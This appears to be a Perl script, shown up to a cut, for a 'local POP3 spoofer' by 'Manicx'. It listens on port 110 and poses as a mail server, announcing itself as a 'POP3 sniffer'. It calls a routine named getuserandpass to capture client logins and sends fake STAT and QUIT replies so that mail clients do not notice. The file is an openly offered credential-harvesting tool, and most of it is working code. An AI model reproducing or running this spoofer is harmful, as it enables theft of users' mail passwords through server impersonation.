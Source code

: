 # Most of this coding was already in the /perl/eg/ folder
# you can find the orginal version there ..

print "===========================\n";
print " Manicx local POP3 spoofer\n";
print " www.infowar.co.uk/manicx/\n";
print "===========================\n";

($port) = @ARGV;
$port = 110 unless $port;    # Are port is 110 unless specified

$AF_INET = 2;
$SOCK_STREAM = 1;

$sockaddr = 'S n a4 x8';

($name, $aliases, $proto) = getprotobyname('tcp');
if ($port !~ /^\d+$/) { ($name, $aliases, $port) = getservbyport($port,
'tcp');}

print "Port = $port\n";

$this = pack($sockaddr, $AF_INET, $port, "\0\0\0\0");

select(NS); $| = 1; select(stdout);

socket(S, $AF_INET, $SOCK_STREAM, $proto) || die "socket: $!";
bind(S,$this) || die "bind: $!";
listen(S,5) || die "connect: $!";

select(S); $| = 1; select(stdout);

print "Listening for connection....\n";

($addr = accept(NS,S)) || die $!;

print "Accept ok\n";

($af,$port,$inetaddr) = unpack($sockaddr,$addr);
@inetaddr = unpack('C4',$inetaddr);

    print NS "+OK manicx POP3 sniffer ready.\n";

    getuserandpass();     # call on our sub
    bluffothers();        # call on other sub

#-------------------------------------
sub bluffothers{
    $cmd = <NS>;
    print $cmd;
    $cmd =~ s/\s//g;

if ($cmd eq 'STAT')
        {
         print NS "+OK 0 0\n";
         print "Client wants STAT sent bluff message\n";
         bluffothers();
        }
elsif ($cmd eq 'QUIT')
        {
        print "Client wants QUIT sent disconnect\n";
        print NS "+OK 127.0.0.1 POP3 server closing connection\n";
        sleep 5;    #so we dont have an error message in netscape
        }
